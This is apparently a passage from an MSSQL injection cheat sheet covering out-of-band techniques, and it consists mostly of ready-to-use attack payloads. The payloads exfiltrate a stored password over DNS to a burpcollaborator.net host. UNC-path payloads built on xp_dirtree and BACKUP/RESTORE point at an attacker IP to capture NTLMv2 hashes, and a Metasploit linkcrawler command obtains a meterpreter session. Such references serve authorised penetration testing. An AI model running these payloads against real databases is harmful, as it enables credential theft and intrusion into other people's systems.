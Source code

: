 ## MSSQL Out of Band

### MSSQL DNS exfiltration

Technique from [@ptswarm](https://twitter.com/ptswarm/status/1313476695295512578/photo/1)

* **Permission**: Requires `VIEW SERVER STATE` permission on the server.

    ```powershell
    1 and exists(select * from fn_xe_file_target_read_file('C:\*.xel','\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\1.xem',null,null))
    ```

* **Permission**: Requires the `CONTROL SERVER` permission.

    ```powershell
    1 (select 1 where exists(select * from fn_get_audit_file('\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\',default,default)))
    1 and exists(select * from fn_trace_gettable('\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\1.trc',default))
    ```

### MSSQL UNC Path

MSSQL supports stacked queries so we can create a variable pointing to our IP address then use the `xp_dirtree` function to list the files in our SMB share and grab the NTLMv2 hash.

```sql
1'; use master; exec xp_dirtree '\\10.10.15.XX\SHARE';-- 
```

```sql
xp_dirtree '\\attackerip\file'
xp_fileexist '\\attackerip\file'
BACKUP LOG [TESTING] TO DISK = '\\attackerip\file'
BACKUP DATABASE [TESTING] TO DISK = '\\attackeri\file'
RESTORE LOG [TESTING] FROM DISK = '\\attackerip\file'
RESTORE DATABASE [TESTING] FROM DISK = '\\attackerip\file'
RESTORE HEADERONLY FROM DISK = '\\attackerip\file'
RESTORE FILELISTONLY FROM DISK = '\\attackerip\file'
RESTORE LABELONLY FROM DISK = '\\attackerip\file'
RESTORE REWINDONLY FROM DISK = '\\attackerip\file'
RESTORE VERIFYONLY FROM DISK = '\\attackerip\file'
```

## MSSQL Trusted Links

> The links between databases work even across forest trusts.

```powershell
msf> use exploit/windows/mssql/mssql_linkcrawler
[msf> set DEPLOY true] # Set DEPLOY to true if you want to abuse the privileges to obtain a meterpreter session
```
